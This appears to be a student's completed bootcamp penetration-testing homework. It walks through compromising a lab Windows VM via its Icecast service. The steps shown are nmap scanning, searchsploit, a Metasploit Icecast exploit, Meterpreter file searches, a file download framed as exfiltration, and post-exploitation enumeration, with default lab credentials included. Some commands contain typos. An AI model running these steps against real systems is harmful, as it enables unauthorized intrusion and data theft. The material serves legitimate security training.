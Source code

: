Andrew Stone ## Week_17 Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer:  nmap -sV 192.168.0.20

       ![nmap](Images/nmap-ip-address.jpg)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
                               
     > Answer: searchsploit icecast

     ![searchsploit-icecase](Images/searchsploit-icecase.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer:  msfconsole
 

 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast 

     ![searchicecast](Images/msfconsole-searchicecast.jpg)

                      
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:  use 0

  
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set RHOST 192.168.0.20

     ![RHOST](Images/rhostoptions.jpg)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit (or run)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *searchfile*.txt
	(c:\Users\IEUser\Documents\user.secretfile.txt (161 bytes)

        ![secretfile](Images/secretfile.jpg)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  search -f *recipe*.txt 
	(c:\User\IEUser\Documents\Drinks.recipe.txt (48 bytes)
              

        ![recipe](Images/Drinksrecipe.jpg)

         
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: Download ‘c:\User\IEUser\Documents\Drinks.recipe.txt’

      ![download](Images/download-recipe-text.jpg)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
  
                  Run post/multi/recon/local_exploit_suggester

       ![local](Images/local-exploit-suggester.jpg)

#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/emu_logged_on_user
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: shell and sysinfo
  ![shell](Images/shell-1.jpg)
  ![shell](Images/sysinfo.jpg)
                         
 
C. Run the command that displays the target's computer system information:

   > Answer:  systeminfo  

 ![hostname](Images/hostname.jpg)
